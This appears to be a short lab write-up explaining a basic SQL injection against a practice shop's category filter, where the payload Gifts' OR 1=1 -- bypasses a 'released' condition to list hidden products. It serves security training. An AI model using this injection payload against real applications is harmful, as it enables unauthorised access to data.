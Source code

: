 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234007067-ccccb2d9-6ecf-41cf-b603-6d380c5a180b.png)

## Solution : 

Query made - 

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

To view all the products (both released and not released) , we include **Gifts' OR 1=1 --** so that it the condition evaluates to TRUE & displayed all the gifts.

The query looks like 

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1`
```

> NOTE - URL encode before forwarding the request

![image](https://user-images.githubusercontent.com/67383098/234009414-cef19c0c-1bac-4670-9fea-a69292e4bae3.png)
